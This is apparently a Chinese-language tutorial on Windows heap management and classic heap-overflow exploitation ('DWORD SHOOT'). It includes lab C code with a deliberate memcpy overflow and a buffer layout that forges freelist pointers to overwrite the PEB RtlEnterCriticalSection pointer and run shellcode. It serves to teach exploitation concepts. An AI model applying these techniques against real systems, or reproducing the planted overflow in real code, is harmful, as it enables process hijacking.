堆溢出利用就是用数据去溢出下一个堆块的块首，改写块首中的前向指针（flink）和后向指针（blink），然后在分配、释放、合并等操作发生时伺机获得一次向内存任意地址写入任意数据的机会。
堆的工作原理
堆与栈的区别
栈空间是在程序设计时已经规定好怎么使用 使用多少内存空间 典型的栈变量包括函数内部的普通变量、数组等。栈变量在使用的时候不需要额外的申请操作，系统栈会根据函数中的变量声明自动在函数栈帧中给其预留空间。栈空间由系统维护，它的分配（如sub esp ，xx ;）和回收（如 add esp，xxx）都由系统来完成，最终达到栈平衡
堆的特性：
（1）堆是一种在程序运行时动态分配的内存。所谓动态是指所需内存的大小在程序设计时不能预先决定，需要在程序运行时参考用户的反馈。
（2）堆在使用时需要程序员用专用函数进行申请，如C 语言中的malloc 等函数、C++中的new 函数等都是最常见的分配堆内存的函数。堆内存申请有可能成功，也有可能失败，这与申请内存的大小、机器性能和当前运行环境有关。
（3）一般用一个堆指针来使用申请得到的内存，读、写、释放都通过这个指针来完成。
（4）使用完毕后需要把堆指针传给堆释放函数回收这片内存，否则会造成内存泄露。典型的释放函数包括free、delete 等。
栈只有pop 和push 两种操作，总是在“线性”变化，其管理机制也相对简单，所以，栈溢出的利用很容易掌握。与“整齐”的栈不同，堆往往显得“杂乱无章”，所以堆溢出的利用是内存利用技术的一个转折点
| 堆内存 | 栈内存 | |
|---|---|---|
| 典型用例 | 动态增长的链表等数据结构 | 函数局部数组 |
| 申请方式 | 需要用函数申请，通过返回的指针使用。如p=malloc(8); | 在程序中直接声明即可，如char buffer[8]； |
| 释放方式 | 需要把指针传给专用的释放函数，如free | 函数返回时，由系统自动回收 |
| 管理方式 | 需要程序员处理申请与释放 | 申请后直接使用，申请与释放由系统自动完成，最后达到栈区平衡 |
| 所处位置 | 变化范围很大 0x0012XXXX | |
| 增长方向 | 由内存低址向高址排列（不考虑碎片等情况） | 由内存高址向低址增加 |
堆的数据结构与管理策略
使用堆：申请一定大小的内存，使用内存，释放内存。
对于堆管理系统来说，响应程序的内存使用申请就意味着要在“杂乱”的堆区中“辨别”出哪些内存是正在被使用的，哪些内存是空闲的，并最终“寻找”到一片“恰当”的空闲内存区域，以指针形式返回给程序。
（1）“杂乱”是指堆区经过反复的申请、释放操作之后，原本大片连续的空闲内存区可能呈现出大小不等且空闲块、占用块相间隔的凌乱状态。
（2）“辨别”是指堆管理程序必须能够正确地识别哪些内存区域是正在被程序使用的占用块，哪些区域是可以返回给当前请求的空闲块。
（3）“恰当”是指堆管理程序必须能够比较“经济”地分配空闲内存块。如果用户申请使用8 个字节，而返回给用户一片512 字节的连续内存区域并将其标记成占用状态，这将造成大量的内存浪费，以致出现明明有内存却无法满足申请请求的情况。
操作系统的堆数据结构一般包括堆块和堆表两类：
堆块：出于性能的考虑，堆区的内存按不同大小组织成块，以堆块为单位进行标识，而不是传统的按字节标识。一个堆块包括两个部分：块首和块身。块首是一个堆块头部的几个字节，用来标识这个堆块自身的信息，例如，本块的大小、本块空闲还是占用等信息；块身是紧跟在块首后面的部分，也是最终分配给用户使用的数据区。
堆表：堆表一般位于堆区的起始位置，用于索引堆区中所有堆块的重要信息，包括堆块的位置、堆块的大小、空闲还是占用等。堆表的数据结构决定了整个堆区的组织方式，是快速检索空闲块、保证堆分配效率的关键。堆表在设计时可能会考虑采用平衡二叉树等高级数据结构用于优化查找效率。现代操作系统的堆表往往不止一种数据结构。

在Windows 中，占用态的堆块被使用它的程序索引，而堆表只索引所有空闲态的堆块。其中，最重要的堆表有两种：空闲双向链表Freelist和快速单向链表Lookaside
1．空表
空闲堆块的块首中包含一对重要的指针，这对指针用于将空闲堆块组织成双向链表。按照堆块的大小不同，空表总共被分为128 条。
堆区一开始的堆表区中有一个128 项的指针数组，被称做空表索引（Freelist array）。该数组的每一项包括两个指针，用于标识一条空表。
如图所示，空表索引的第二项（free[1]）标识了堆中所有大小为8 字节的空闲堆块，之后每个索引项指示的空闲堆块递增8 字节，例如，free[2]标识大小为16 字节的空闲堆块，free[3]标识大小为24 字节的空闲堆块，free[127]标识大小为1016 字节的空闲堆块。因此有：
空闲堆块的大小＝索引项（ID）×8（字节）
把空闲堆块按照大小的不同链入不同的空表，可以方便堆管理系统高效检索指定大小的空闲堆块。需要注意的是，空表索引的第一项（free[0]）所标识的空表相对比较特殊。这条双向链表链入了所有大于等于1024 字节的堆块（小于512KB）。这些堆块按照各自的大小在零号空表中升序地依次排列下去

2．快表
快表是 Windows 用来加速堆块分配而采用的一种堆表。这里之所以把它叫做“快表”是因为这类单向链表中从来不会发生堆块合并（其中的空闲块块首被设置为占用态，用来防止堆块合并）。
快表也有128 条，组织结构与空表类似，只是其中的堆块按照单链表组织。快表总是被初始化为空，而且每条快表最多只有 4 个结点，故很快就会被填满。

堆中的操作可以分为堆块分配、堆块释放和堆块合并（Coalesce）三种。其中，“分配”和“释放”是在程序提交申请和执行的，而堆块合并则是由堆管理系统自动完成的。
1．堆块分配
堆块分配可以分为三类：快表分配、普通空表分配和零号空表（free[0]）分配。
从快表中分配堆块比较简单，包括寻找到大小匹配的空闲堆块、将其状态修改为占用态、把它从堆表中“卸下”、最后返回一个指向堆块块身的指针给程序使用。
普通空表分配时首先寻找最优的空闲块分配，若失败，则寻找次优的空闲块分配，即最小的能够满足要求的空闲块。
零号空表中按照大小升序链着大小不同的空闲块，故在分配时先从free[0]反向查找最后一个块（即表中最大块），看能否满足要求，如果能满足要求，再正向搜索最小能够满足要求的空闲堆块进行分配（这就明白为什么零号空表要按照升序排列了）。
堆块分配中的“找零钱”现象：当空表中无法找到匹配的“最优”堆块时，一个稍大些的块会被用于分配。这种次优分配发生时，会先从大块中按请求的大小精确地“割”出一块进行分配，然后给剩下的部分重新标注块首，链入空表。这里体现的就是堆管理系统的“节约”原则：买东西的时候用最合适的钞票，如果没有，就要找零钱，决不会玩大方。
由于快表只有在精确匹配时才会分配，故不存在“找钱”现象。
2．堆块释放
释放堆块的操作包括将堆块状态改为空闲，链入相应的堆表。所有的释放块都链入堆表的末尾，分配的时候也先从堆表末尾拿。
另外需要强调，快表最多只有4 项。
3．堆块合并
经过反复的申请与释放操作，堆区很可能变得“千疮百孔”，产生很多内存碎片。为了合理有效地利用内存，堆管理系统还要能够进行堆块合并操作，如图所示。

当堆管理系统发现两个空闲堆块彼此相邻的时候，就会进行堆块合并操作。
堆块合并包括将两个块从空闲链表中“卸下”、合并堆块、调整合并后大块的块首信息（如大小等）、将新块重新链入空闲链表。
在具体进行堆块分配和释放时，根据操作内存大小的不同，Windows 采取的策略也会有所不同。可以把内存块按照大小分为三类：
小块：SIZE<1KB
大块：1KB≤SIZE<512KB
巨块：SIZE≥512KB
对应的分配和释放算法也有三类:
| 分配 | 释放 | |
|---|---|---|
| 小块 | 首先进行快表分配；若快表分配失败，进行普通空表分配；若普通空表分配失败，使用堆缓存（heap cache）分配；若堆缓存分配失败，尝试零号空表分配（freelist[0]）若零号空表分配失败，进行内存紧缩后再尝试分配；若仍无法分配，返回NULL | 优先链入快表（只能链入4 个空闲块）；如果快表满，则将其链入相应的空表 |
| 大块 | 首先使用堆缓存进行分配；若堆缓存分配失败，使用free[0]中的大块进行分配 | 优先将其放入堆缓存若堆缓存满，将链入freelists[0] |
| 巨块 | 一般说来，巨块申请非常罕见，要用到虚分配方法（实际上并不是从堆区分配的）。 | 直接释放，没有堆表操作 |
最后，再强调一下Windows 堆管理的几个要点。
（1）快表中的空闲块被设置为占用态，故不会发生堆块合并操作。
（2）快表只有精确匹配时才会分配，不存在“搜索次优解”和“找零钱”现象。
（3）快表是单链表，操作比双链表简单，插入删除都少用很多指令。
（4）综上所述，快表很“快”，故在分配和释放时总是优先使用快表，失败时才用空表。
（5）快表只有4 项，很容易被填满，因此空表也是被频繁使用的。
在堆中漫游
堆分配函数之间的调用关系
所有的堆分配函数最终都将使用位于ntdll.dll 中的RtlAllocateHeap()函数进行分配，这个函数也是在用户态能够看到的最底层的堆分配函数。所谓万变不离其宗，这个“宗”就是RtlAllocateHeap()。因此，研究Windows 堆只要研究这个函数即可。

堆的调试方法
1 | #include <windows.h> |
调试堆不能直接用调试器来加载 否则堆管理函数会检测到当前进程处于调试状态，而使用调试态堆管理策略。
调试态堆管理策略和常态堆管理策略有很大差异，集中体现在：
（1）调试堆不使用快表，只用空表分配。
（2）所有堆块都被加上了多余的16 字节尾部用来防止溢出（防止程序溢出而不是堆溢出攻击），这包括8 个字节的0xAB 和8 个字节的0x00。
（3）块首的标志位不同。
调试态的堆和常态堆的区别就好像debug 版本的PE 和release 版本的PE 一样。如果您做堆溢出实验，发现在调试器中能够正常执行shellcode，但单独运行程序却发生错误，那很可能就是因为调试堆和常态堆之间的差异造成的。
为了避免程序检测出调试器而使用调试堆管理策略，我们可以在创建堆之后加入一个人工断点：_asm int 3，然后让程序单独执行。当程序把堆初始化完后，断点会中断程序，这时再用调试器attach 进程，就能看到真实的堆了。
运行程序后 将中断的程序进程附加到调试器
查看内存中的值：

进程中存在着多个堆
识别堆表
在程序初始化过程中，malloc 使用的堆和进程堆都已经经过了若干次分配和释放操作，里边的堆块相对比较“凌乱”。因此，我们在程序中使用HeapCreate()函数创建一个新的堆，通过调试这个比较“整齐”的堆来理解前边介绍的堆管理策略。
当HeapCreate()成功地创建了堆区之后，会把整个堆区的起始地址返回给EAX，在这里是0x00520000。
我们需要关注的时偏移0x178处的空表索引区 其余的一般与堆溢出关系不大
当一个堆刚刚被初始化时，它的堆块状况是非常简单的。
（1）只有一个空闲态的大块，这个块被称做“尾块”。
（2）位于堆偏移0x0688 处（启用快表后这个位置将是快表），这里算上堆基址就是0x00520688。
（3）Freelist[0]指向“尾块”。
（4）除零号空表索引外，其余各项索引都指向自己，这意味着其余所有的空闲链表中都没有空闲块。

我们去520688处看看尾块的状态：

我们得到以下信息：
（1）这个堆块开始于0x00520680，一般引用堆块的指针都会跃过8字节的块首，直接指向数据区。
（2）尾块目前的大小为0x0130，计算单位是8 个字节
（3）注意：堆块的大小是包含块首在内的。
堆块的分配
经过调试，对于堆块的分配我们应该了解以下细节。
（1）堆块的大小包括了块首在内，即如果请求32 字节，实际会分配的堆块为40 字节：8字节块首＋32 字节块身。
（2）堆块的单位是8 字节，不足8 字节的部分按8 字节分配。
（3）初始状态下，快表和空表都为空，不存在精确分配。请求将使用“次优块”进行分配。这个“次优块”就是位于偏移0x0688 处的尾块。
（4）由于次优分配的发生，分配函数会陆续从尾块中切走一些小块，并修改尾块块首中的size 信息，最后把freelist[0]指向新的尾块位置。

实际分配的情况和我们预料的完全一致。“找零钱”现象使得尾块的大小由0x130 被削减为0x120。如果您去0x00520178 查看freelist[0]中的空表指针，会发现现在已经指向新尾块的位置，而不是从前的0x00520688 了。
堆块的释放
由于前三次释放的堆块在内存中不连续，因此不会发生合并。按照其大小，h1 和h3 所指向的堆块应该被链入freelist[2]的空表，h5 则被链入freelist[4]

堆块的合并
当第 4 次释放操作结束后，h3、h4、h5 这3 个空闲块彼此相邻，这时会发生堆块合并操作。
首先这3 个空闲块都将从空表中摘下，然后重新计算合并后新堆块的大小，最后按照合并后的大小把新块链入空表。
在这里，h3、h4 的大小都是2 个堆单位（8 字节），h5 是4 个堆单位，合并后的新块为8个堆单位，将被链入freelist[8]。
堆溢出利用（上）——DWORD SHOOT
堆管理系统的三类操作：堆块分配、堆块释放和堆块合并归根结底都是对链表的修改。例如，分配就是将堆块从空表中“卸下”；释放是把堆块“链入”空表；合并稍微复杂点，但也可以看成是把若干个堆块先从空表中“卸下”，修改块首信息（大小），之后把更新后的新块“链入”空表。
所有“卸下”和“链入”堆块的工作都发生在链表中，如果我们能伪造链表结点的指针，在“卸下”和“链入”的过程中就有可能获得一次读写内存的机会。
堆溢出利用的精髓就是用精心构造的数据去溢出下一个堆块的块首，改写块首中的前向指针（flink）和后向指针（blink），然后在分配、释放、合并等操作发生时伺机获得一次向内存任意地址写入任意数据的机会。
我们把这种能够向内存任意位置写入任意数据的机会称为“DWORD SHOOT”
在调试中体会“DWORD SHOOT”
代码如下：1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22#include <windows.h>
main()
{
HLOCAL h1, h2,h3,h4,h5,h6;
HANDLE hp;
hp = HeapCreate(0,0x1000,0x10000);
h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
h3 = HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
h4 = HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
h5 = HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
h6 = HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
_asm int 3//used to break the process
//free the odd blocks to prevent coalesing
HeapFree(hp,0,h1);
HeapFree(hp,0,h3);
HeapFree(hp,0,h5); //now freelist[2] got 3 entries
//will allocate from freelist[2] which means unlink the last entry
//(h5)
h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
return 0;
}
在这段程序中应该注意：
（1）程序首先创建了一个大小为0x1000 的堆区，并从其中连续申请了6 个大小为8 字节的堆块（加上块首实际上是16 字节），这应该是从初始的大块中“切”下来的。
（2）释放奇数次申请的堆块是为了防止堆块合并的发生。
（3）三次释放结束后，freelist[2]所标识的空表中应该链入了3 个空闲堆块，它们依次是h1、h3、h5。
（4）再次申请8 字节的堆块，应该从freelist[2]所标识的空表中分配，这意味着最后一个堆块h5 被从空表中“拆下”。
（5）如果我们手动修改h5 块首中的指针，应该能够观察到DWORD SHOOT 的发生。
三次释放结束后，直接在内存区域转到00520688处堆块的状况
堆块情况：
起始位置|Flag|Size 单位：8bytes|前向指针flink|后向指针blink
:-:|:-:|:-:|:-:|:-:|:-:
h1|0x00520680|空闲态0x00 0x0002|0x005206A8|0x00520188
h2|0x00520690|占用态0x01 0x0002|无|无
h3|0x005206A0|空闲态0x00 0x0002|0x005206C8|0x00520688
h4|0x005206B0|占用态0x01 0x0002|无|无
h5|0x005206C0|空闲态0x00 0x0002|0x00520188 0x005206A8
h6|0x005206D0|占用态0x01 0x0002|无|无
尾块|0x005206E0|最后一项（0x10） 0x0124|0x00520178(freelist[0])|0x00520178(freelist[0])
这时，最后一次8 字节的内存请求会把freelist[2]的最后一项（原来的h5）分配出去，这意味着将最后一个结点从双向链表中“卸下.
如果我们现在直接在内存中修改h5 堆块中的空表指针（当然攻击发生时是由于溢出而改写的），那么应该能够观察到DWORD SHOOT 现象
堆溢出利用（下）——代码植入
DWORD SHOOT 的利用方法
DWORD SHOOT 的常用目标（Windows XP SP1 之前的平台）大概可以概括为以下几类。
（1）内存变量：修改能够影响程序执行的重要标志变量，往往可以改变程序流程。例如，更改身份验证函数的返回值就可以直接通过认证机制。在这种应用场景中，DWORD SHOOT 要比栈溢出强大得多，因为栈溢出时溢出的数据必须连续，而DWORD SHOOT 可以更改内存中任意地址的数据。
（2）代码逻辑：修改代码段重要函数的关键逻辑有时可以达到一定攻击效果，例如，程序分支处的判断逻辑，或者把身份验证函数的调用指令覆盖为0x90(nop)。这种方法有点类似于软件破解技术中的“爆破”——通过更改一个字节而改变整个程序的流程。
（3）函数返回地址：栈溢出通过修改函数返回地址能够劫持进程，堆溢出也一样可以利用DWORD SHOOT 更改函数返回地址。但由于栈帧移位的原因，函数返回地址往往是不固定的，甚至在同一操作系统和补丁版本下连续运行两次栈状态都会有不同，故DWORD SHOOT 在这种情况下有一定局限性，因为移动的靶子不好瞄准。
（4）攻击异常处理机制：当程序产生异常时，Windows 会转入异常处理机制。堆溢出很容易引起异常，因此异常处理机制所使用的重要数据结构往往会成为DWORD SHOOT 的上等目标，这包括S.E.H（structure exception handler）、F.V.E.H（First Vectored Exception Handler）、进程环境块（P.E.B）中的U.E.F (Unhandled Exception Filter)、线程环境块(T.E.B)中存放的第一个S.E.H 指针(T.E.H)。
（5）函数指针：系统有时会使用一些函数指针，比如调用动态链接库中的函数、C++中的虚函数调用等。改写这些函数指针后，在函数调用发生后往往可以成功地劫持进程。但可惜的是，不是每一个漏洞都可以使用这项技术，这取决于软件的开发方式。
（6）P.E.B 中线程同步函数的入口地址：在每个进程的P.E.B 中都存放着一对同步函数指针，指向RtlEnterCriticalSection()和RtlLeaveCriticalSection()，并且在进程退出时会被ExitProcess()调用。如果能够通过DWORD SHOOT 修改这对指针中的其中一个，那么在程序退出时ExitProcess()将会被骗去调用我们的shellcode。由于P.E.B 的位置始终不会变化，这对指针在P.E.B 中的偏移也始终不变，这使得利用堆溢出开发适用于不同操作系统版本和补丁版本的exploit 成为可能。这种方法一经提出就立刻成为了Windows 平台下堆溢出利用的最经典方法之一。
狙击P.E.B 中RtlEnterCritical-Section()的函数指针
Windows 为了同步进程下的多个线程，使用了一些同步措施，如锁机制（lock）、信号量（semaphore）、临界区（critical section）等。许多操作都要用到这些同步机制。
当进程退出时，ExitProcess()函数要做很多善后工作，其中必然需要用到临界区函数RtlEnterCriticalSection()和RtlLeaveCriticalSection()来同步线程防止“脏数据”的产生。
ExitProcess()调用临界区函数的方法比较独特，是通过进程环境块P.E.B 中偏移0x20 处存放的函数指针来间接完成的。具体说来就是在0x7FFDF020 处存放着指向RtlEnterCriticalSection()的指针，在0x7FFDF024 处存放着指向RtlLeaveCriticalSection()的指针
练习DWORD SHOOT 后，劫持进程、植入代码的全套动作：
代码如下：1
2
3
4
5
6
7
8
9
10
11
12
13#include <windows.h>
char shellcode[]="\x90\x90\x90\x90\x90\x90\x90\x90……"
main()
{
HLOCAL h1 = 0, h2 = 0;
HANDLE hp;
hp = HeapCreate(0,0x1000,0x10000);
h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,200);
__asm int 3 //used to break process
memcpy(h1,shellcode,0x200); //overflow,0x200=512
h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
return 0;
}
程序和实验步骤:
（1）h1 向堆中申请了200 字节的空间。
（2）memcpy 的上限错误地写成了0x200，这实际上是512 字节，所以会产生溢出。
（3）h1 分配完之后，后边紧接着的是一个大空闲块（尾块）。
（4）超过200 字节的数据将覆盖尾块的块首。
（5）用伪造的指针覆盖尾块块首中的空表指针，当h2 分配时，将导致DWORD SHOOT。
（6）DWORD SHOOT 的目标是0x7FFDF020 处的RtlEnterCriticalSection()函数指针，可以简单地将其直接修改为shellcode 的位置。
（7）DWORD SHOOT 完毕后，堆溢出导致异常，最终将调用ExitProcess()结束进程。
（8）ExitProcess()在结束进程时需要调用临界区函数来同步线程，但却从P.E.B 中拿出了指向shellcode 的指针，因此shellcode 被执行。

缓冲区布置如下。
（1）将我们那段168 字节的shllcode 用0x90 字节补充为200 字节。
（2）紧随其后，附上8 字节的块首信息。为了防止在DWORD SHOOT 发生之前产生异常，不妨直接将块首从内存中复制使用：“\x16\x01\x1A\x00\x00\x10\x00\x00”。
（3）前向指针是DWORD SHOOT 的“子弹”，这里直接使用shellcode 的起始地址0x00520688。
（4）后向指针是DWORD SHOOT 的“目标”，这里填入P.E.B 中的函数指针地址0x7FFDF020.
这时 整个缓冲区的内容如下：1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90"
